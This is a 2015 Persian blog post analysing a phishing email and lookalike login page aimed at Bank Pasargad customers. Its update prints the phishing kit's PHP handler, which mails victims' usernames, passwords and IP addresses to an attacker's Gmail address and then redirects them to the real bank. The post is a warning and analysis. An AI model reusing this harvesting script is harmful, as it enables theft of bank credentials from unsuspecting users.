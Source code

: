 ```yaml
---
id: 732
title: 'فیشینگ بانک پاسارگاد &#8211; پیدا کردن هکر'
date: 2015-07-08T10:07:47+00:00
author: امیر کریمی
layout: post
guid: https://dev-frame.amirkarimi.me/?p=732
permalink: '/2015/07/%d9%81%db%8c%d8%b4%db%8c%d9%86%da%af-%d8%a8%d8%a7%d9%86%da%a9-%d9%be%d8%a7%d8%b3%d8%a7%d8%b1%da%af%d8%a7%d8%af/'
views:
  - "2882"
categories:
  - فناوری
  - متفرقه
tags:
  - Security
  - امنیت
---
```

یه ایمیل برام اومد که با یه روش قدیمی و شناخته شده سعی در هک کردن اکانت حساب بانکی پاسارگادم داره؛ فیشینگ (Phishing).

<a href="/wp-content/uploads/2015/07/pishing_pasargad.jpeg" target="_blank"><img class="aligncenter wp-image-733 size-medium" src="/wp-content/uploads/2015/07/pishing_pasargad-300x148.jpeg" alt="pishing_pasargad" width="300" height="148" srcset="/wp-content/uploads/2015/07/pishing_pasargad-300x148.jpeg 300w, /wp-content/uploads/2015/07/pishing_pasargad.jpeg 728w" sizes="(max-width: 300px) 100vw, 300px" /></a>

همنوطور که تو تصویر بالا قابل مشاهده هست لینک داخل ایمیل در ظاهر دقیقا لینک دسترسی به اینترنت بانک پاسارگاد هست ولی در باطن لینک شده به یه سایت دیگه که دقیقا عین سایت اصلی ساخته شده فقط هرچی توی فیلدهای این صفحه بنویسیم (شامل نام کاربری و کلمه عبور) رو برای هکر میفرسته و بعد هم صفحه اصلی بانک رو نشون میده تا یه وقت به چیزی شک نکنیم و فکر کنیم که احتمالا خودمون فیلدی رو اشتباه وارد کردیم. با یه مهندسی اجتماعی ساده (اینکه کسی ۶ میلیون تومن پول ریخته به حسابمون) هم سعی کرده تحریکمون کنه که حتما لاگین کنیم.

<a href="/wp-content/uploads/2015/07/pishing_pasargad_2.jpeg" target="_blank"><img class="aligncenter size-medium wp-image-734" src="/wp-content/uploads/2015/07/pishing_pasargad_2-300x232.jpeg" alt="pishing_pasargad_2" width="300" height="232" srcset="/wp-content/uploads/2015/07/pishing_pasargad_2-300x232.jpeg 300w, /wp-content/uploads/2015/07/pishing_pasargad_2.jpeg 674w" sizes="(max-width: 300px) 100vw, 300px" /></a>

جالب اینجاست که این هک برای انگلیسی زبان‌ها ساخته شده و درگاه پرداخت اصلی هم به زبان انگلیسی هست.

خوشبختانه هم خود Thunderbird تشخیص داد که این ایمیل جعلی هست و هم وقتی روی لینک کلیک میکنیم یه پیغام میده که ظاهر این لینک با آدرسی که بهش اشاره کرده نمی‌خونه ولی اگر هکر یه کم حرفه‌ای‌تر بود میتونست کاری کنه که ایمیل اسپم نشه و این هشدار هم داده نشه. به هر حال من شک ندارم حداقل ۸۰ درصد مردم متوجه هیچ کدوم از این مسائل نمی‌شن و نام کاربری و کلمه عبورشون رو برای هکر میفرستن! متاسفانه، به همین راحتی.

### به روز رسانی

خوشبختانه مثل اینکه این هکر ما یه مقداری ناشی هست. اگر به مسیر روت سایت فیشینگ برید میبیند که Directory Listing سرور رو نبسته و از اون بدتر نسخه zip شده سایت رو هم گذاشته روی سرور این یعنی سورس این صفحه در دسترس هست. کد PHP این صفحه فیشینگ به شکل زیره:

<pre class="brush: php; title: ; notranslate" title="">&lt;?php  
$ip = getenv("REMOTE_ADDR");  

$message .= "--------------INFORMATION-------------------\n"; 
$message .= "User: ".$_POST['username']."\n"; 
$message .= "Pass: ".$_POST['password']."\n";
$message .= "IP: ".$ip."\n"; 
$message .= "---------------Created By Kizito +6289524438862--------------------\n"; 

$send = "kizito.bank@gmail.com"; 
$subject = "Pasargad"; 
$headers = "From:  iben.bpi.ir"; 
mail($send,$subject,$message,$headers); 

header("Location: https://iben.bpi.ir/");  
?&gt; 
</pre>

همونطور که مشخصه ایمیلی که اطلاعات قربانی‌ها براش ارسال میشه kizito.bank@gmail.com هست و البته برنامه‌نویس یه تلفن هم گذاشته (که مال اندونزی هست)! یه سناریو میتونه این باشه که یه آدم غیر فنی سفارش این هک رو به یه فریلنسر داده و ازش تحویل گرفته ولی موقعه بارگذاری چون مسائل امنیتی رو نمی‌دونسته اینطوری کدها رو در معرض دید عموم قرارداده. این برنامه‌نویس کلاه سیاه هم تلفنش رو گذاشته بوده واسه تبلیغ تا در انتهای هر ایمیل که برای کارفرما ارسال میشه در پایین نام کاربری و کلمه عبور قربانی‌ها بیاد. به قول معروف امضاء خودش رو اونجا گذاشته.